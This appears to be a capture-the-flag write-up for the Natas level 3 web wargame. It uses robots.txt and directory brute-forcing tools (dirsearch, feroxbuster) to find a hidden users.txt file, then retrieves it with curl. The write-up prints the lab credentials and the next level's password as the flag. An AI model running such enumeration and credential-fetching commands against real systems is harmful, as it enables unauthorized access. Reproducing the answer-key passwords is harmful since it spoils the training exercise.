 # soal
Username: natas3 \
URL:      http://natas3.natas.labs.overthewire.org \

# solve
- login with cred natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
- if you check the web you won't find a directory listing because the directory listing isn't there
- u can check robots.txt first because show the allow and disallow path user agent
- and Here I found the folder that was allowed, namely /s3cr3t/
  - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt # natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ 
- or use the tool bruteforce directory
```bash
echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64 # make the base64 for authentication

dirsearch -u natas3.natas.labs.overthewire.org -e txt,html -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

feroxbuster -u http://natas3.natas.labs.overthewire.org -x .txt,.html -H "Authorization: Basic $(echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64)"
# 200      GET        1l        1w       40c http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
# 200      GET        2l        4w       33c http://natas3.natas.labs.overthewire.org/robots.txt
```

- after u found the directory and the file u can curl the flag
```bash
curl http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```

# flag
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ